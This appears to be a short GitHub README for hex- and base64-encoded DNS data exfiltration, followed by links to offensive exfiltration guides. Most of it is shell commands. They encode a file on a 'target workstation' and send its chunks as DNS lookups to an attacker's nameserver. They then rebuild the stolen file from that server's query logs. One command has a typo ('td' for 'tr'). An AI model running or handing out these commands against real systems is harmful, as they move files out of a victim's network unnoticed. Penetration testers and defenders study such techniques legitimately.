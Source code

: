 # Usage

## 01 - Hex Encoded DNS Exfiltration

TODO: Provide a step process for exfiltrating DNS server on the attacker machine

Install for Debian-based distros

```
$ sudo apt install ldnsutils dnsutils
```

Install for Arch-based distros

```
$ sudo pacman -S bind
```

On the target workstation

```
$ xxd -p file.txt > file.hex

$ while read line; do drill $line.<nameserver_dns_server>; done < file.hex

$ grep -Eo [0-9a-f]*.<nameserver_dns_server_IP> /var/lib/bind/query.log | cut -d "." -f 1 | uniq > file.hex

$ xxd -r -p file.hex > file.txt
```

## 1.2 - Base64 Encoded DNS Exfiltration

```
$ base64 file.txt | td -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed 's/$/<domain.com>/'
```

---
## References

- [Staged Payloads from Kali Linux | PT Phone Home – DNS](https://www.offsec.com/offsec/staged-payloads-from-kalki-linux-pt-phone-hone-dns/)

- [Downloading Files Through Recursive DNS With Bash (Or PowerShell)](http://breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html)

- [NotSoSecure: Out of Band Exploitation (OOB) CheatSheet](https://notsosecure.com/out-band-exploitation-oob-cheatsheet)

- [DNS exfiltration of data: step-by-step simple guide](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)

- [Setting Up Your Own Malicious DNS Server For Data Exfiltration (Without a DNS Server)](https://john-woodman.com/research/dns-exfiltration-setup/)

- [Deploy Self hosted interactsh-server for Blind & Out of Band Testing](https://takshilp.medium.com/oob-blind-testing-using-dns-exfiltration-54bcc004a0fb)

- [Data-Bouncing - The art of indirect exfiltration.](https://thecontractor.io/data-bouncing/)
